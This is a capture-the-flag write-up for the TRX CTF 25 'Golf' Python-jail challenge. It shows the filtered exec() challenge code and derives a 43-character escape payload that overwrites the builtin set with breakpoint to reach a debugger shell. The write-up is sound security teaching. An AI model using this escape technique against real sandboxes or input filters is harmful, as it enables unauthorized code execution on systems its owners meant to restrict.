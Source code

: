 ```yaml
---
title: TRX CTF 25 - Golf
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- misc
- pyjail
authors:
- babelo
---
```


## Overview

We're given a file named chall.py, let's take a look at its content

```py
#!/usr/bin/env python3.13
if(c:=input()).isascii()*~-any(x in(c)for(x)in'!"#\'()*+-:<>@[]\\_{}'):exec(c[:43])
```

This is obviously a pyjail, and our goal is to read the flag from a file. First, let's rewrite this code in a more understandable way:

```py
#!/usr/bin/env python3.13

code = input()

if code.isascii() and not any(x in code for x in '!"#\'()*+-:<>@[]\\_{}'):
    exec(code[:43])
```

So that means we can only use the following characters ```?.,|^/`;=&~$%```. Fortunately for us, built-in functions are not erased, so we can still import modules and execute certain operations.

## Main Idea
The payload must be extremely short. Spawning a shell with so few characters is a challenging task, especially since we cannot directly call functions. To bypass this restriction, we can search for gadgets inside Python that will be triggered when an exception occurs.

The shortest way to trigger an exception is by referencing an undefined variable:

```py
>>> x
Traceback (most recent call last):
  File "<python-input-5>", line 1, in <module>
    x
NameError: name 'x' is not defined
```

Now we can try to overwrite some builtins to see if they're being called before throwing the exception. Our goal is to find a function that is invoked with no arguments so that we can overwrite it with `breakpoint`. A good candidate is `set`. Let's try overwriting it:

```py
import builtins;builtins.set = breakpoint;a

# Output:
  File "/slop.py", line 1, in <module>
    import builtins;builtins.set = breakpoint;a
NameError: name 'a' is not defined
```

This is strange. We know that `breakpoint` is being called because if we overwrite `set` with `print`, we can observe values and newlines being printed.

The `breakpoint` function imports the `pdb` module, which will  import other modules. To prevent `set` from being called before we intend it to, we must first import `pdb`.

## Final payload

```py
import pdb,builtins;builtins.set = breakpoint;a
```

This payload is still too long, so we have to shorten it:

```py
import pdb,builtins as e;e.set=breakpoint;a
```

This successfully breaks out of the jail and allows us to get the flag.